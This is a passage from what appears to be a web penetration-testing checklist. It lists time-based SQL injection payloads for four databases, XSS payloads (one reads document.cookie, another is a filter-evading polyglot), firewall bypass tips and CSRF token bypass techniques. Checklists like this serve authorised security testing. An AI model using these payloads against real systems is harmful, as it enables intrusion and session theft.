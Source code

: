         ```markup
              Oracle 	      dbms_pipe.receive_message(('a'),10)
              
              Microsoft 	  WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT pg_sleep(10)
              
              MySQL 	      SELECT sleep(10)
        ```
        
    - Conditional Delays
        
        ```markup
              Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
              
              Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
              
              MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
        ```
        
- **Cross-Site Scripting Testing**
    
    - [ ] Try XSS using QuickXSS tool by theinfosecguy
    - [ ] Upload file using '"><img src=x onerror=alert(document.domain)>.txt
    - [ ] If script tags are banned, use <h1> and other HTML tags
    - [ ] If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
    - [ ] if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
    - [ ] Upload a JavaScript using Image file
    - [ ] Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
    - Tag attribute value
        - [ ] Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
        - [ ] Payload to be inserted -“ onfocus=”alert(document.cookie)"
    - [ ] Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
    - XSS filter evasion
        - [ ] < and > can be replace with html entities < and >
        - [ ] You can try an XSS [polyglot.Eg](http://polyglot.Eg):-javascript:/_-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[_/[]/+alert(1)//'>
    - XSS Firewall Bypass
        - [ ] Check if the firewall is blocking only lowercase
        - [ ] Try to break firewall regex with the new line(\r\n)
        - [ ] Try Double Encoding
        - [ ] Testing for recursive filters
        - [ ] Injecting anchor tag without whitespaces
        - [ ] Try to bypass whitespaces using Bullet
        - [ ] Try to change request method
- **CSRF Testing**
    
    - Application has Anti-CSRF token implemented
        - [ ] Removing the Anti-CSRF Token
        - [ ] Altering the Anti-CSRF Token
        - [ ] Using the Attacker’s Anti-CSRF Token
        - [ ] Spoofing the Anti-CSRF Token
        - [ ] Using guessable Anti-CSRF Tokens
        - [ ] Stealing Anti-CSRF Tokens
    - Application uses Double Submit Cookie
        - [ ] Check for session fixation on subdomains
        - [ ] Man in the the middle attack
    - Application validates the Referrer or the Origin of the request received
        - [ ] Restricting the CSRF POC from sending the Referrer header
        - [ ] Bypass the whitelisting/blacklisting mechanism used by the application
    - Sending data in JSON/XML format
        - [ ] By using normal HTML Form1